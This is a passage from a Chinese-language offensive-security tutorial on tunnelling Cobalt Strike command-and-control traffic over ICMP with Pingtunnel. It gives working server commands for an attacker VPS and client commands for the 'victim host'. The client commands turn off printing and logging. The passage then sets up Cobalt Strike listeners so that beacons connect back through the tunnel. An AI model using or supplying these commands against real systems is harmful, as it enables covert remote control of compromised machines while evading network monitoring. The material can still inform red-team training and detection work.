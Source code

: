### 利用方式

#### Pingtunnel 上线 Cobaltstrike

1、按照上面步骤，先利用 Pingtunnel 搭建 ICMP 隧道

服务端（vps）

```plain
sudo ./pingtunnel -type server -key 000000(连接密码，只限数字)
```

[![](assets/1708095858-ba656df398ed048e445e6d2e19423b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202746-be450544-e8e4-1.png)

客户端（受害主机），这边需要将 ICMP 转发为 TCP

```plain
pingtunnel.exe -type client -l [本机 IP：ICMP 隧道端口] -s [服务端 IP_VPS] -t [服务端 IP_VPS:ICMP 隧道转发至 VPS 的端口] -tcp 1 -noprint 1 -nolog 1 -key [密钥]
pingtunnel.exe -type client -l 127.0.0.1:2222 -s 1.x.x.x -t x.x.x.x:3333 -tcp 1 -noprint 1 -nolog 1 -key 000000
```

[![](assets/1708095858-ceb881677bfd0de89ade926a847acccf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202754-c31ff3b2-e8e4-1.png)

2、Cobaltstrike 新建两个监听，一个为转发 ICMP 的 2222 端口 host 为 127.0.0.1（这个主要用于生成本地地址的 beacon），另一个监听端口为 ICMP 流量转发到 VPS 的服务端口 3333。
